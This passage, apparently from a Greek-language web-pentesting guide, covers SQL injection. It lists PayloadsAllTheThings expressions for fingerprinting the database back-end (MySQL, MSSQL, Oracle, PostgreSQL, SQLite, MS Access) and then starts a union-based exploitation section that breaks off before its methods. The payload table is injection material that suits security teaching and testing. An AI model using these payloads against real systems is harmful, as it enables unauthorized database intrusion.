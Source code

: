 
### Αναγνώριση Back-end

Ο καλύτερος τρόπος για να αναγνωρίσετε το back-end είναι να προσπαθήσετε να εκτελέσετε λειτουργίες των διαφόρων back-end. Μπορείτε να χρησιμοποιήσετε τις _**λειτουργίες ύπνου**_ **της προηγούμενης ενότητας** ή αυτές (πίνακας από [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification):
```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
Επίσης, αν έχετε πρόσβαση στην έξοδο του ερωτήματος, θα μπορούσατε να **εκτυπώσετε την έκδοση της βάσης δεδομένων**.

> [!NOTE]
> Σε μια συνέχεια, θα συζητήσουμε διάφορες μεθόδους για να εκμεταλλευτούμε διάφορους τύπους SQL Injection. Θα χρησιμοποιήσουμε το MySQL ως παράδειγμα.

### Αναγνώριση με PortSwigger

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

## Εκμετάλλευση Βασισμένη σε Union

### Ανίχνευση αριθμού στηλών

Αν μπορείτε να δείτε την έξοδο του ερωτήματος, αυτή είναι η καλύτερη μέθοδος για να το εκμεταλλευτείτε.\
Πρώτα απ' όλα, πρέπει να ανακαλύψουμε τον **αριθμό** των **στηλών** που επιστρέφει το **αρχικό αίτημα**. Αυτό συμβαίνει επειδή **και τα δύο ερωτήματα πρέπει να επιστρέφουν τον ίδιο αριθμό στηλών**.\
Δύο μέθοδοι χρησιμοποιούνται συνήθως για αυτόν τον σκοπό:
